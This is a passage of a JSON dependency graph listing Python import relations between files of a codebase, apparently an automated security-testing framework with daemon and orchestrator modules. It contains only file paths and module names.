"scripts/sync_doc_stats.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/sync_doc_stats.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/sync_doc_stats.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/sync_doc_stats.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/sync_doc_stats.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/sync_doc_stats.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/top_tier_check.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/top_tier_check.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/top_tier_check.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/top_tier_check.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/top_tier_check.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/update_apt_atomic_ids.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/update_apt_atomic_ids.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/update_apt_atomic_ids.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/update_apt_atomic_ids.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "setup.py", "target": "setuptools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/aci_planner.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/aci_planner.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/aci_planner.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/aci_planner.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/aci_planner.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/aci_planner.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/aci_planner.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/aci_planner.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/aci_planner.py", "target": "urllib.error"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/aci_planner.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/aci_planner.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/aci_planner.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/aci_planner.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "obs_parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "reactive_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.notify"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.notify"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.notify"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.toolset"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "lazyown_mcp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "fcntl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "pty"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "select"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "termios"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.goals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.goals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.goals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.intercept"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.enrich"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.intercept"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "report_generator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.event_consumers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "lazyown_objective"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.asset_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "lazyown_llm"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "swan_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "metrics"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.toolset"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "rl_trainer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.enrich"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.llm_pool"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.llm_pool"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.llm_pool"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.llm_pool"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "concurrent.futures"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.intercept"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.evidence"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.metrics"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.evidence"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.obs_parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "xml.etree.ElementTree"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_daemon.py", "target": "modules.finding_lifecycle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_replay.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_replay.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_replay.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_replay.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_replay.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_replay.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_replay.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_replay.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_replay.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_replay.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_replay.py", "target": "skills.autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/autonomous_replay.py", "target": "skills.autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/__init__.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/__init__.py", "target": "config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/__init__.py", "target": "models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/__init__.py", "target": "orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/bdd_agent.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/bdd_agent.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/bdd_agent.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/bdd_agent.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/bdd_agent.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/bdd_agent.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/bdd_agent.py", "target": "config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/bdd_agent.py", "target": "models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/bdd_agent.py", "target": "tdd_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/bdd_agent.py", "target": "validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/boy_scout.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/boy_scout.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/boy_scout.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/boy_scout.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/boy_scout.py", "target": "config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/boy_scout.py", "target": "models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/boy_scout.py", "target": "validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/cicd_agent.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/cicd_agent.py", "target": "hmac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/cicd_agent.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/cicd_agent.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/cicd_agent.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/cicd_agent.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/cicd_agent.py", "target": "config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/cicd_agent.py", "target": "models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/config.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/config.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/config.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/config.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/documentation_agent.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/documentation_agent.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/documentation_agent.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/documentation_agent.py", "target": "config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/documentation_agent.py", "target": "models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/models.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/models.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/models.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/models.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/models.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/models.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/models.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/parser.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/parser.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/parser.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/parser.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/parser.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/parser.py", "target": "config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/parser.py", "target": "models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/reviewer_agent.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/reviewer_agent.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/reviewer_agent.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/reviewer_agent.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/reviewer_agent.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/reviewer_agent.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/reviewer_agent.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/reviewer_agent.py", "target": "config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/reviewer_agent.py", "target": "models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/reviewer_agent.py", "target": "validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/reviewer_agent.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/sdd_agent.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/sdd_agent.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/sdd_agent.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/sdd_agent.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/sdd_agent.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/sdd_agent.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/sdd_agent.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/sdd_agent.py", "target": "config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/sdd_agent.py", "target": "models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/sdd_agent.py", "target": "validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/sdd_agent.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tdd_agent.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tdd_agent.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tdd_agent.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tdd_agent.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tdd_agent.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tdd_agent.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tdd_agent.py", "target": "config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tdd_agent.py", "target": "models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tdd_agent.py", "target": "validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tests/conftest.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tests/conftest.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tests/conftest.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tests/test_orchestrator.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tests/test_orchestrator.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tests/test_orchestrator.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tests/test_orchestrator.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tests/test_orchestrator.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tests/test_orchestrator.py", "target": "claude_md_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tests/test_orchestrator.py", "target": "claude_md_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tests/test_orchestrator.py", "target": "claude_md_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/tests/test_orchestrator.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/validators.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/validators.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/validators.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/validators.py", "target": "tokenize"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/validators.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/validators.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/validators.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/claude_md_orchestrator/validators.py", "target": "models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/daemon_control.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/daemon_control.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/daemon_control.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/daemon_control.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/daemon_control.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/daemon_control.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/daemon_control.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/daemon_control.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/daemon_control.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/daemon_control.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/daemon_control.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/daemon_health.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/daemon_health.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/daemon_health.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/daemon_health.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/daemon_health.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/daemon_health.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/daemon_health.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/heartbeat.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/heartbeat.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/heartbeat.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/heartbeat.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/heartbeat.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/heartbeat.py", "target": "event_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/heartbeat.py", "target": "session_state"}, {"confidence": "EXTRACTED", "relation": 